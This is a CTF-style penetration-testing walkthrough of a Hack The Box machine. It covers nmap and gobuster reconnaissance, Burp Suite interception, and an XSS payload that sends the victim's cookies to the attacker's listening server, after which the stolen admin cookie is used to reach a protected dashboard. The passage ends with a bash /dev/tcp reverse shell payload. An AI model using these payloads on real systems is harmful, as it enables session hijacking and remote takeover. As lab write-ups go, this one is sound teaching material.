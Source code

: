 Start pinging the target IP:

```
ping 10.10.11.8
```

You will get response outcome meaning that the server is active. Let's start with an nmap scap to see what ports are opened and which information can be retrieved.

```
nmap -sC -sV 10.10.11.8 -oN output_nmap.txt
```

This command returns the output of nmap into `output_nmap.txt`file.

`-sC`: Default Script Scan. Runs a set of standard nmap scripts at the target host (Checking for open proxy servers, identifying HTTP servers, detecting SSL/TLS certificate details... etc). This command adds depth to the scan by running various scripts that can uncover additional information and potential vulnerabilities.

`-sV`: Version Detection. Probes open ports to determine what service and version is running on them. It sends various probes to the open ports and analyzing the responses (e.g., Identifying application and version running on each open port). It ensures you get accurate service and version information for the open ports, which can be crucial for identifying specific vulnerabilities and understanding the network environment better.
Concatenating `-sC` and `-sV` in `nmap` scans is a common practice because it provides a detailed analysis of the target.

The summary of the outcome is the following:

1. Host IP: `10.10.11.8`
2. Open ports:
   a. 22/tcp: SSH (OpenSSH 9.2p1)
   b. 5000/tcp: Web server
3. Operating System: Linux

The outcome shows that the open SSH service on port 22 and the web server on port 5000 might be targets for further investigation or exploitation.

![Alt text](nmap_headless.png)

As there is a webserver host. The most interesting way is to access from a browser `http://10.10.11.8:5000`. It automatically redirects to `http://10.10.11.8:5000/support`. We observe that the site is reachable and contains a form to send. Usually forms are good infection points which attackers can leverage to bypass systems or interact with them.

(pic2)
(pic3)

Instead of trying common scripts in javascript to interact with the website and make them vulnerable. Let's scan what this domain has to offer. There is a famous tool in Kali Linux called `Gobuster`.

`Gobuster` is a tool for brute-forcing directories, files, DNS subdomains and virtual hosts. It is commonly used in pentesting to discover hidden resources on a web server that might not be immediately visible through normal browsing or standard `web crawlers`. To install it type: `sudo apt install gobuster`. Then run the following command:
```
gobuster dir -u http://10.10.11.8:5000 -w /usr/share/wordlists/dirb/big.txt
```
gobuster uses the `dir` flag to scan for directories on the `-u` (url flag) on the domain specified using the `-w` worldlist flag located in `/usr/.../big.txt`. It can be observed that there are two available URLs `/dashboard` (Status:500, , i.e., Internal Server Error) and `/support` (Status: 200, i.e., OK). Our URL of interest is `/dashboard`. The reason why it isn't accessible can be because server configuration errors, resource limits... the most plausible situation is permission issues. It is highly likely that we don't have persmissions to access such URL so let's dig more into it.

(pic4)
(pic5)

So to access `http://10.10.11.8:5000/dashboard`we need to be able to login or have admin privileges. A good way to login is to find a login page (and use brute force for example or any additional hits in such login page). Nonetheless, we only have a non-accessible URL. There must be a way to bypass the server and make them think that we are authorized to access the URL. A good way to bypass/trick the server is to give an admin cookie or session id. The differences between admin cookie and session id can be seen in the following URL:
https://www.tutorialspoint.com/What-is-the-difference-between-session-and-cookies#:~:text=Cookies%20are%20client-side%20files,files%20that%20store%20user%20information.&text=Cookies%20expire%20after%20the%20user,logs%20out%20of%20the%20program.

(pic6)

How can an admin cookie be obtained? A good way to obtain admin cookies is to use a XSS-steal cookie technique. An example can be found in the following URL:
https://pswalia2u.medium.com/exploiting-xss-stealing-cookies-csrf-2325ec03136e

Cross-Site Scripting (XSS) is a vulnerability that allows an attacker to inject malicious scripts into web pages. These scripts can run in the context of the victim's browser and can be used for a variety of malicious activities, including stealing cookies. Cookies often store session tokens and other sensitive information, and stealing them can allow an attacker to hijack a user's session, gaining unauthorized access to their account. So that's what we want to access the unauthorized URL `/dashboard`. When an XSS vulnerability is present on a website, an attacker can inject a script that reads the user's cookies and sends them to the attacker’s server. The attacker can then use these cookies to impersonate the user.

For this attack we need the following ingredients:

1. Setting up a server
2. Configure Burp-suite scanner
3. Inject the malicious code

##### 1. Setting up the server

The purpose of this step is to set up a server to receive the stolen cookie. Use a basic HTTP server on port 8001 that will log incoming requests. The server listens for incoming HTTP requests. In this attack, it will receive requests containing the victim's cookies. Type in a new CLI:

```
python3 -m http.server 8001
```

(pic7)

##### 2. Configure Burp-suite scanner

Open Burp-suite scanner. Click on "Temporary project in memory", "Next", "Use Burp defaults", "Start Burp". Click on `Proxy` tab, then on ìntercept is off` to set it on. You will have an outcome as follows:

(pic10)

Click on "Open browser". A browser will appear on your left. This explorer is designed to interact with Burp-suite so we will use it for the XSS.

(pic11)

Type in the search bar `http://10.10.11.8:5000/support`. You will observe that the page is freezed. This is because Burp-suite is not allowing the packets to continue. To land in the URL click on "Forward" button.

(pic12)

You will see that the URL is reached. Introduce some random data into the webpage. Submit. Check the outcome on the right-hand side. That's all the packet information. Right-click on the packet information and select "send to repeater" so we will be able to try multiple things without recatch the packets each time. Now time to inject the payload. 

```
<script>var i=new Image(); i.src="http://{IP}:{port}/?cookie="+btoa(document.cookie);</script>
```

Observe the terms `{IP}:{port}`in the previous command line (CL). The CL is generic and won't work. You have to find your IP address and use the port of the server built in step 1. To know your IP address type in a new terminal `ifconfig` and you must see your personal IP and the IP assigned to your HTB VPN. The IP from the VPN is the one you have to use. In my situation is `10.10.14.108` so my XSS injection is `<script>var i=new Image(); i.src="http://10.10.14.108:8001/?cookie="+btoa(document.cookie);</script>`.

Introduce this CL into Burp-suite in `User-Agent` field and forward the communication. If no results appear add it too into the `message` field and click on forward.

(pic8)

You will receive the following outcome in your server CLI:

(pic13)

Congratulations! You got the admin cookie. Now you have to decode it. Your XSS-injection script was encoded in binary 64 ensuring safe transmission via URL. So now you have to decode it. For that open a new CLI and run: 

```
echo "aXNfYWRtaW49SW1Ga2JXbHVJZy5kbXpEa1pORW02Q0swb3lMMWZiTS1TblhwSDA=" | base64 -d
```
The outcome is the decoded admin cookie:

(pic14)

Turn off the intercept in Burp-suite, go back the the Burp browser and introduce `http://10.10.11.8:5000/dashboard`. You will access to the Forbidden site. Turn on the intercept and refresh the site. You will observe the following outcome:

(pic15)

Introduce the following fields: `Cache-Control: max-age=0` and `Cookie: {cokie deciphered}. Click "Forward" and you will get in the Administrator Dashboard.

(pic16)

In the context of a penetration test or a capture-the-flag (CTF) challenge, the goal is often to gain a shell on the target system (the webserver). This provides deeper access and control over the target, allowing the tester to explore and potentially escalate privileges further. From here the reasoning is the following:

1. Assessing Input Fields: Exploring the web application to identify points where malicious commands can be injected.
2. Getting a Shell: The goal is to obtain a reverse shell to gain interactive access to the target system.
3. Design Payload: A payload must be designed to open a reverse shell connection. It uses bash to create an interactive shell session that redirects input and output to the attacker's machine, effectively giving the attacker remote control over the target system.

We know that we are in the correct path because we are behind a protected page that required authenticated access (admin cookie), which has higher privilege or access to more sensitive parts of the application. Getting a shell means the user can interact with the target system more freely, execute commands, and explore the environment. This is a significant step in gaining control over the system.

Open a new terminal tab and create a file `vim payload.sh` with the following content:

```
/bin/bash -c 'exec bash -i >& /dev/tcp/{IP}/1111 0>&1'
```

1. `/bin/bash -c`: Tells the CLI to run the following command using the bash shell.
2. `'exec bash -i >& /dev/tcp/{IP}/1111 0>&1'`: The core of the reverse shell command. `exec bash -i` This starts an interactive bash shell. `/dev/tcp/` is a Bash feature that allows TCP connections to be treated like files, when a program writes to this path it actually sends data over the network to the specified IP address and port ({IP}/1111). `0>&1`makes the standard input of the Bash shell read from the TCP connection.

The IP address must be your IP address (mine is `10.10.14.10`) and the /1111 is the port we are going to set (you can set whichever you want to) for a netcat listener.

